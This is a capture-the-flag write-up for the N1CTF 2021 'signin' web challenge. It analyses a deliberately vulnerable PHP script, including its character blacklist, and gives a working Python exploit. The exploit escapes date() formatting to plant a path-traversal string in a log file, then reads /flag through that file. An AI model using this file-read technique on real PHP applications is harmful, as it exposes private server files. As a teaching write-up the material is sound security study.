






# N1CTF 2021 - signin (web)

The challenge provides us with a link.



Clicking on the link brings us to a webpage with a PHP script and what seems to be the output of the script.



```php
<?php 
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die();
    }
}
if(file_put_contents($name, $time)){
	echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
	echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}
```

Looking at the script, I did some analysis and came up with the following points:

* `$path` is set to the `POST` parameter `path`
* If the query string `time` exists then set `$time` variable based on the request.
  * `php://input` reads all raw data after the HTTP headers from the request body
  * `date( string )` formats the current datetime according to the string
* `$name` is a concatenation of the UNIX time and a random number
* `$blist` is an array of strings
  ```php
  $blist = ["f", "ht", "ba", "z", "ro", ";", ",", "=", "c", "g", "da", "_"];
  ```
* If any of `$blist` is found in `$path`, then terminate the script
* Write `$time` into a file with name `$name`
* `$check` is the contents of $path with newlines (and surrounding whitespaces) removed
  * If `$check` is a valid filepath then show its contents.

## Approach

Based on the comment in the first line, the goal seems to be to read the contents of the file at `/flag`, but how can we do so? 

We can use the `file_get_contents()` function to get the contents of `/flag`. 
* To acheive this, we need to control `$check` and set it to `/flag`. 
* `$check` is controlled by the contents of `$path`.

However, we do not know what other files there are on the server, other that the logs that are generated, e.g.


From the script, we can see that we have control of the contents of these logs via the variable `$time`. 

## Reading the log file

I did some testing to see if I can indeed read the file given by the `POST` parameter `path`. First, I made and empty request, which generated a log file at `/var/www/tmp/1637466858976676123.txt`.



Next, I sent another request with the `POST` data `path=/var/www/tmp/1637466858976676123.txt`, and I manage to read the contents of the logfile.



## Controlling `$time`

In order to control `$time`, we have to bypass the `date()` function. For testing, I started a docker instance of `php:8.0.13-apache`:

```sh
$ docker run -it --rm -d 8080:80 --name signin -v "$PWD/docker":/var/www php:8.0.13-apache
```

Then, I placed a test script into `/var/www/html`, which displays the value that would be stored in `$time` in the actual script. 

```php
<?php
$content = file_get_contents("php://input")

echo $content."\n";
echo urldecode(date($content))
?>
```

I used a python script to send requests to this server, and found the right payload after some trial and error.

```python
#!/usr/bin/python3

import requests

url = "http://localhost:8080/signin.php?time=time"
data = '../../../f\l\\a\g'

x = requests.post(url, str(data))
print(x.request.body)
print(x.text)
```



From this, I can now craft the full exploit. We have to make two requests:
1. to inject the log file with "../../../flag"
2. with the path to the log file as `path`

```python
#!/usr/bin/python3

import requests

url = "http://43.155.64.70?time=1"

## Make the first request to store "../../../flag" into the logfile
payload1 = str('../../../f\l\\a\g')
response1 = requests.post(url, payload1).text

## Extract path to the logfile
path_start = response1.find('logpath', 600)
path_end = response1.find('</code>', path_start)
logpath = response1[path_start + 8:path_end]

## Make the second request to access the polluted logfile
payload2 ={ 'path': logpath }
response2 = requests.post(url, payload2).text

## Extract the flag
flag_start = response2.find('n1ctf')
flag_end = response2.find('</code>', flag_start)
flag = response2[flag_start:flag_end]

print(flag)
```

The script successfully extracts the flag.


> n1ctf{bypass_date_1s_s000_eassssy}